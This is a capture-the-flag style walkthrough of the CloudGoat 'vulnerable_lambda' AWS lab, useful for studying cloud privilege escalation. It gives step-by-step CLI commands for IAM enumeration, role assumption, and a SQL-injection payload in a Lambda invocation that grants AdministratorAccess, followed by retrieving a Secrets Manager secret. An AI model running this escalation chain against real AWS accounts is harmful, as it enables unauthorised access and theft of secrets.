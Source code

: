 # Vulnerable Lambda 
In this scenario, a lambda function will be exploited to escalate privileges and search for secrets.

## Installation
```./cloudgoat.py create vulnerable_lambda

## Enumerate Biblo
1. Assume the biblo user's role
```aws configure --profile biblo
<Add access key, secret access key into the fields>
aws --profile biblo sts get-caller-identity -> Get user name
```
2. Get all the permissions associated with biblo
```
aws iam list-user-policies --user-name <user name> --profile biblo -> get policy name
aws iam get-user-policy --user-name <user name> --policy-name <policy name> --profile biblo

POLICYDOCUMENT  2012-10-17
STATEMENT       sts:AssumeRole  Allow   arn:aws:iam::<account id>:role/cg-lambda-invoker*          
STATEMENT       ['iam:Get*', 'iam:List*', 'iam:SimulateCustomPolicy', 'iam:SimulatePrincipalPolicy']       Allow   *  
```
We can see that the the policy allows us to list roles and assume the lambda role

3. To list roles
```
aws iam list-roles --profile biblo >> roles.txt
```
In roles.txt, we search for the role name that begins with cg-lambda-invoker
4. Identify the associated permissions with the role
```
aws iam list-role-policies --role-name <role name> --profile biblo
aws iam get-role-policy --role-name <role name> --policy-name <policy name> --profile biblo
POLICYDOCUMENT  2012-10-17
STATEMENT       Allow   ['<lambda function arn>', '<2 lambda function arn>']
ACTION  lambda:ListFunctionEventInvokeConfigs
ACTION  lambda:InvokeFunction
ACTION  lambda:ListTags
ACTION  lambda:GetFunction
ACTION  lambda:GetPolicy
STATEMENT       Allow   *
ACTION  lambda:ListFunctions
ACTION  iam:Get*
ACTION  iam:List*
ACTION  iam:SimulateCustomPolicy
ACTION  iam:SimulatePrincipalPolicy
```
We can see that we can get the source function and list functions.

4. Assume the lambda role
```
aws sts assume-role --role-arn <lambda role> --role-session-name biblo --profile biblo --output json
```
5. Add the profile
```
nano ~/.aws/credentials
```
Add the following lines
```
[lambda-biblo]
aws_access_key_id = <access key>
aws_secret_access_key = <secret access key>
aws_session_token = <session token>
```
## Lambda Source Code
1. List lambdas and identify target lambda 
```
aws lambda list-functions --profile lambda-biblo
...
<target lambda function>
"Description": "This function will apply a managed policy to the user of your choice, so long as the database says that it's okay..."
...
```
We then see that the exploit could be database
2. Examine the source code
```
aws lambda get-function --function-name <function name> --profile lambda-biblo
...
CODE    https://prod-04-20xxxx...
...
```
Paste the url into the browser to download the code. We can then see that the code validates our hypothesis above. We can add the policy administrator access to our user as it is in the approved list of policies.
3. Invoke the function with attaching the policies
```
aws --profile lambda-biblo lambda invoke --function-name <function name> --cli-binary-format raw-in-base64-out --payload '{"policy_names":["AdministratorAccess'"'"' --"], "user_name":"<biblo user name>"}' out.txt
cat out.txt -> Check for no errors
```
## Secrets Manager
1. List Secrets
```
aws secretsmanager list-secrets --region us-east-1 --profile biblo --output json
... 
"Name": "vulnerable_lambda_xx... -> id of secret we want
...
```
2. Get the secret 
```
aws secretsmanager get-secret-value --region us-east-1 --secret-id <secret id> --profile biblo --output json
...
"SecretString": "cg-secret-846237-284529" -> Flag!
...
```

# References 
* Challenge: https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/vulnerable_lambda/README.md
